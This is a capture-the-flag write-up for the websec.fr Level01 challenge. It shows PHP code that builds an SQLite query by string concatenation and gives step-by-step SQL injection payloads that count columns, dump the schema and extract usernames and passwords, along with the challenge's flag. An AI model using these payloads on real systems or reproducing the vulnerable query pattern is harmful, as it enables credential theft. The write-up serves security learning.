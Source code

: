# Level01
## Task
Challenge URL: https://websec.fr/level01/index.php  

![image](https://user-images.githubusercontent.com/44528004/132601995-9e60abba-e344-4271-83e8-3392e98229d1.png)
## Solution
### Initial observation
The `this application` links to the back-end source code including PHP and HTML. Following is the source for PHP:  
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

Here, we can see that the query statement is prepared by concatenating user input to a predefined statement and thereby susceptible to SQL injection.  

If I enter the `user ID` as `'`, an error message is returned:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "' LIMIT 1" in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```

If I enter '' or 1=1 --, I get this:  

![image](https://user-images.githubusercontent.com/44528004/132615026-734f4575-28eb-4e65-9bb3-da1ad6e08955.png)


### Exploitation
First, I found the number columns returned.  
When I entered `'' union select 1 --`, I got:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /index.php on line 16

Fatal error: Call to a member function fetchArray() on boolean in /index.php on line 17
```
This means the `SELECT` statement on the right side doesn't have the same number of columns as of the left side. Therefore, I increased the number of columns on the right side to 2 with the following payload:
```
'' union select 1, 1--
```

As a result, I got this:  

![image](https://user-images.githubusercontent.com/44528004/132615447-388b4ecc-5d20-460a-99aa-1af3365d1708.png)

This implies that there are 2 columns returned.

Next, I tried to disclose table names and column names to hopefully find something.  
From [this post](https://stackoverflow.com/questions/6460671/sqlite-schema-information-metadata), I got the payload to get the table names as well as the sql command to create that table:
```sql
SELECT name, sql FROM sqlite_master
WHERE type='table'
ORDER BY name;
```

With that payload, I got this result:  

![image](https://user-images.githubusercontent.com/44528004/132615853-0236d80c-7c0f-40a0-a7fc-df46e6d990d7.png)

From the result, I can see that there is a table called `users` and in that table there are 3 columns, namely `id`, `username`, and `password`.

Them, I wanted to see all `username`s in this table:
```sql
'' UNION SELECT username, password FROM users ORDER BY username DESC --
```

The result is:  

![image](https://user-images.githubusercontent.com/44528004/132617184-184c540e-bf7a-4f10-876f-981b272adef4.png)
> So flag: `WEBSEC{Simple_SQLite_Injection}`
